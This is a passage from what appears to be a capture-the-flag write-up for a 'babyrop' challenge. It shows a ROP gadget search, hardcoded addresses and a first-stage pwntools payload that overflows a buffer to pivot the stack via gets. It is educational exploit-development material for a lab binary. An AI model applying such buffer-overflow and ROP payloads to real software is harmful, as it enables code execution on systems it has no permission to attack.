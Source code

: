 ![Pasted image 20250716095624](assets/images/SmileyCTF-babyrop/Pasted%20image%2020250716095624.png)

Therefore, we need to align RSP to a higher address. The stack in the print function should remain within 0x404000 - 0x405000.

The gadget

```python
(vuln/ELF/x86_64)> search add rsp
[INFO] Searching for gadgets: add rsp

[INFO] File: vuln
0x0000000000401016: add rsp, 8; ret;
```


The payload,

```python

landing_addr = 0x404038
print_addr   = 0x404010
print_call   = 0x401211
pop_rbp_ret  = 0x40115d
gets_call    = 0x401205
add_rsp_8    = 0x401016
leave_ret    = 0x4011cd

### Set rbp to 0x404058 ###

first_stage_payload = flat({
    0x28: [
        pop_rbp_ret,
        landing_addr+0x20,
        gets_call
        ]
    })

io.sendline(first_stage_payload)
log.info(f'first stage out: {io.recv()}')

```